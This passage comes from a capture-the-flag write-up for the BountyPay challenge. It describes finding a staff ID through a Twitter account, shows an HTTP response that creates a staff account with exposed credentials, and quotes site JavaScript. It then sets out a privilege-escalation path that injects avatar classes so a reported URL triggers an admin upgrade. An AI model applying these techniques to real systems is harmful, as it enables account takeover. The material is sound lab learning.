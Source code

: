 Looking for who is following bountypayhq account
https://twitter.com/bountypayhq/following

And finally found Sandra's twitter account 
https://twitter.com/SandraA76708114

{F858267}

So finally got the staff id to activate the account.

```
staff_id=STF:8FJ3KFISL3
```
```
HTTP/1.1 201 Created
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 07 Jun 2020 17:38:13 GMT
Content-Type: application/json
Connection: close
Content-Length: 110

{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```
Bingo! got another credentials

__username__: sandra.allison
__password__: s%3D8qB8zEpMnc*xsz7Yp5

Time to log in https://staff.bountypay.h1ctf.com/

6. Privilege Escalation
---------------------
After logging in staff site, found some interesting function.

Avatar change: sets avatar value in div class

website.js: 
```javascript
$('.upgradeToAdmin').click(function () {
  let t = $('input[name="username"]').val();
  $.get('/admin/upgrade?username=' + t, function () {
    alert('User Upgraded to Admin')
  })
}),
$('.tab').click(function () {
  return $('.tab').removeClass('active'),
  $(this).addClass('active'),
  $('div.content').addClass('hidden'),
  $('div.content-' + $(this).attr('data-target')).removeClass('hidden'),
  !1
}),
$('.sendReport').click(function () {
  $.get('/admin/report?url=' + url, function () {
    alert('Report sent to admin team')
  }),
  $('#myModal').modal('hide')
}),
document.location.hash.length > 0 && ('#tab1' === document.location.hash && $('.tab1').trigger('click'), '#tab2' === document.location.hash && $('.tab2').trigger('click'), '#tab3' === document.location.hash && $('.tab3').trigger('click'), '#tab4' === document.location.hash && $('.tab4').trigger('click'));
```
So, there is a way to escalate privileges reporting a url who triggers upgradeToAdmin function with sandra.allison username.
Changing avatar to "tab4 upgradeToAdmin" i can control the execution of upgradeToAdmin function through url with #tab4, but the username was undefined.
```
https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582#tab4 
```